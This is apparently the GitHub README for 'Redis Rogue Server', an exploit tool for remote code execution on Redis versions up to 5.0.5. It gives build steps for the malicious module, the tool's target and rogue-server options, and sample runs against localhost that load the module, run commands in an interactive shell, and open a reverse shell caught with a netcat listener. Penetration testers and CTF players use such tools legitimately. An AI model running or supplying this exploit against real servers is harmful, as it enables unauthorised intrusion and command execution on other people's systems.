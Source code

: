 # Redis Rogue Server

An exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

__Support interactive shell and reverse shell!__

## Requirements

Python 3.6+

If you want to modify or recompile the redis module, you should also require `make`.

## Usage

Compile exploit:

``` bash
cd RedisModulesSDK/exp/
make
```

Copy the .so file to same folder with `redis-rogue-server.py`.

```
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
```

## Example

### Interactive shell

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] :n0b0dy
[<<] 
```

### Reverse shell

Invoke reverse shell:

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 127.0.0.1
Reverse server port: 9999
[info] Reverse shell payload sent.
[info] Check at 127.0.0.1:9999
[info] Unload module...
```

Receive reverse shell:

```
➜ nc -lvvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from localhost.localdomain 39312 received!
whoami
n0b0dy
```

## Thanks

* [RicterZ](https://github.com/RicterZ)'s redis exec module: <https://github.com/RicterZ/RedisModules-ExecuteCommand>
